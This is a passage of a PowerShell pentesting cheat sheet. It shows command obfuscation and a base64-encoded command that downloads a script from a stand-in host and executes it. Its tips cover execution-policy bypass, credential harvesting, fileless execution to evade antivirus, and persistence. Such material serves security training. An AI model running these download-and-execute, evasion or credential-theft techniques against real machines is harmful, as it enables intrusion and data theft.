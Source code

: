 #### **Obfuscate Command**
```powershell
$p="Start-Process";& $p calc.exe
```

#### **Encoding Payload**
```powershell
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('Invoke-WebRequest -Uri http://example.com/payload.ps1 -OutFile C:\payload.ps1; Invoke-Expression C:\payload.ps1'))
```

---

### **Key PowerShell Pentesting Tips**
- **Execution Policy Bypass**: Always check if you can bypass the execution policy on a target machine using `-ExecutionPolicy Bypass`.
- **Credential Harvesting**: Use PowerShell to extract credentials from a variety of sources like saved Wi-Fi passwords, browser passwords, or cached credentials.
- **Fileless Execution**: Execute scripts or payloads directly from memory to avoid detection by antivirus solutions.
- **Persistence**: Scheduled tasks and registry modifications are common ways to establish persistence on a compromised machine.

---
